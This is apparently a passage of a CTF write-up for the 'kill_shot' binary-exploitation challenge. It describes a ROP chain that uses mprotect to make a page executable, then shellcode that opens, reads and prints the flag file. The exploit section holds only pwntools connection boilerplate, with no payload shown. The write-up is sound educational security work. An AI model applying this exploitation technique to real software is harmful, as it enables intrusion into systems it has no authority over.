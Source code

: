 Now our ROP chain will consist of calling `mprotect` in order to get an rwx page somewhere in the binary then calling `read` in order to send shellcode.
Finally, return to where the shellcode is.

Our shellcode will call `read` so we can give it the path of the flag which is `/home/ctf/flag.txt`.
Then we will use that path in order to open the flag file using `openat` and use `read` again in order to read the contents of the flag.
Finally, use `write` in order to print the contents of the flag.


## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host bin.q21.ctfsecurinets.com --port 1338 kill_shot
from pwn import *
import funcy
# Set up pwntools for the correct architecture
exe = context.binary = ELF('./kill_shot')
libc = ELF('./libc.so.6')
ld = ELF('./ld-2.27.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'bin.q21.ctfsecurinets.com'
port = int(args.PORT or 1338)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    p = process([ld.path, exe.path] + argv, *a, **kw, env={"LD_PRELOAD": libc.path})
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB

gdbscript = '''
'''.format(**locals())


#===========================================================
#                    EXPLOIT GOES HERE
```